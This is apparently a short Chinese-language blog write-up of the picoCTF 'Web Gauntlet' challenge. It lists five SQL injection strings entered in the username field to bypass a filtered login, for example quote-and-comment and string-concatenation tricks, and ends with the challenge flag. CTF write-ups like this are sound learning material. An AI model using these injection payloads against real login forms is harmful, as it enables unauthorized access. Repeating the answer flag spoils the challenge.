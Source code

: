```yaml
---
layout: post
title:  "picoCTF - Web Gauntlet"
description: 
date:   2023-12-29 10:10:00 +0800
# last_modified_at:
categories: [CTF, picoCTF-Web Exploitation]
author: d13
tags: [ctf, web exploitation, picoctf]
---
```


## Question

[https://play.picoctf.org/practice/challenge/88](https://play.picoctf.org/practice/challenge/88)

## Solution


題目就是在考SQL Injection而已，filter.php那個連結會提示他過濾了那些字。但我很多題都送一樣的sql進去，反正能過關就好，也是因為我會的指令也不多就是了...

以下附上我每題的input，通通都是加在username那一欄，password隨便打：

```
1. admin';--
2. admin';0x2d2d
3. admin';0x2d2d
4. ad'||'min';0x2d2d
5. ad'||'min';0x2d2d
```

## Flag

picoCTF{y0u_m4d3_1t_16f769e719ab9d3e310fd13dc1262ee1}